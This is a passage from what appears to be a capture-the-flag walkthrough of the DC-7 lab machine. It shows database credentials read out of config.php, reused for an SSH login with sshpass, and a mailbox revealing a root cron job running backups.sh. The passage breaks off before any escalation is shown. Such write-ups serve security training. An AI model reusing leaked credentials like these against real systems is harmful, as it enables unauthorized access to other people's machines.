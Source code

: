 Credentials are leaked in the `config.php` file:

~~~
kali@kali:/data/DC_7/files/staffdb$ cat config.php 
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
~~~

# SSH connection (dc7user)

Trying to connect against the SSH service using these credentials is successful:

~~~
kali@kali:~$ sshpass -p "MdR3xOgB7#dW" ssh dc7user@dc-7
Linux dc-7 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u5 (2019-08-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Sat Oct 10 23:25:47 2020 from 172.16.222.128
dc7user@dc-7:~$ id
uid=1000(dc7user) gid=1000(dc7user) groups=1000(dc7user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
~~~

# The `backups.sh` script

There is a mailbox file in the home folder, which seems to indicate that a cron job is run by `root`:

~~~
dc7user@dc-7:~$ cat mbox 

From root@dc-7 Thu Aug 29 17:00:22 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 17:00:22 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3EPu-0000CV-5C
	for root@dc-7; Thu, 29 Aug 2019 17:00:22 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3EPu-0000CV-5C@dc-7>
Date: Thu, 29 Aug 2019 17:00:22 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]
gpg: symmetric encryption of '/home/dc7user/backups/website.tar.gz' failed: File exists
~~~